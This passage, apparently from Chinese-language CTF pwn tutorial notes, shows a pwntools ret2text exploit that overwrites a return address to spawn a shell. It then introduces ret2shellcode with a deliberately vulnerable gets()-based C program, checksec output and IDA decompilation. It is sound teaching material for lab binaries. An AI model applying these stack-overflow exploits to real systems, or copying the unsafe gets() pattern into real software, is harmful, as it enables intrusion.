 ```python
from pwn import *

p=process("./ret2text")
sys_sh_addr=0x804863A

payload='a'*112 + p32(sys_sh_addr) #padding+ret_addr
p.sendline(payload)

p.interactive()
```


## ret2shellcode
ret2shellcode，即控制程序执行 shellcode代码。shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。这需要我们将一段shellcode填充到有可执行权限的区域，如栈上或者bss段，并且把返回地址指向shellcode的起始位置。

以下面为例，[题目地址](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2shellcode/ret2shellcode-example)
```c
#include <stdio.h>
#include <string.h>

char buf2[100];

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("No system for you this time !!!\n");
    gets(buf);
    strncpy(buf2, buf, 100);
    printf("bye bye ~");

    return 0;
}
```
查看保护机制，几乎没有开启保护，而且还有可读可写可执行的段存在
```bash
gnq@gnq:~/exam$ checksec ret2shellcode
[*] '/home/gnq/exam/ret2shellcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
用IDA打开，F5反汇编得到
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-64h]

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets((char *)&v4);
  strncpy(buf2, (const char *)&v4, 0x64u);
  printf("bye bye ~");
  return 0;
}
```